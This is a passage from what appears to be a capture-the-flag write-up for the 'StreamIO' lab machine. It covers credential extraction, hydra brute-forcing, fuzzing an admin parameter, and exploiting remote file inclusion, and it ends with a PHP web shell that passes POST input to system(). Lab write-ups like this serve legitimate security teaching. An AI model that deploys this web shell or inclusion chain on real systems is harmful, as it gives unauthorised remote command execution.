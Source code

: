 `awk -F ":" '{print $1 ":" $3}' user_pass.txt`

We can use hydra to see if we can get a valid login 

![64d434c8ddd0c9504bc51f316909db44.png]({{ site.baseurl }}/images/64d434c8ddd0c9504bc51f316909db44.png)

***

## Exploiting the admin panel

When we login to streamio.htb, we are now able to access the /admin endpoint previously unavailiable to us.

Let's try bruteforcing directories

We can see that the url parameter seems to indicate pages, since it changes whenever we click on a different section.

![78a8ea1dfb22cd16f09c268e2c3dbf3c.png]({{ site.baseurl }}/images/78a8ea1dfb22cd16f09c268e2c3dbf3c.png)

We can try to fuzz this parameter to find other pages that are not listed 

![112166403e09e9efa18269f9e0b2f93c.png]({{ site.baseurl }}/images/112166403e09e9efa18269f9e0b2f93c.png)

Something that we haven't seen is the page debug, let's have a look at that.

If we pass in master.php that we found earlier in the enumeration phase, we can see a page that was previously unavailiable to us, since it could only be included. It seems to print the contents of all other tabs.

![3d513b30a4ac2ad0511e673f5642dcbb.png]({{ site.baseurl }}/images/3d513b30a4ac2ad0511e673f5642dcbb.png)

If we open the page as raw html, we can see an interesting form at the bottom, that is not displayed as a tab:

![31a37e96866effbf048abf873c03f74f.png]({{ site.baseurl }}/images/31a37e96866effbf048abf873c03f74f.png)

That means, if we make a post request to the same endpoint with the parameter include, we might be able to include arbitrary files, and if remote file inclusion is availiable, we may be able to include a PHP web shell.

![0608b28006f586db588837cd5895125b.png]({{ site.baseurl }}/images/0608b28006f586db588837cd5895125b.png)
![829bbb9785f40eca1e0236d9a92a997d.png]({{ site.baseurl }}/images/829bbb9785f40eca1e0236d9a92a997d.png)

Lo and behold, the server includes remote files. Let's pop a webshell shall we.

## RCE

Webshell content:
```php

    if(isset($_POST['cmd']))
    {
        system($_POST['cmd']);
    }

```
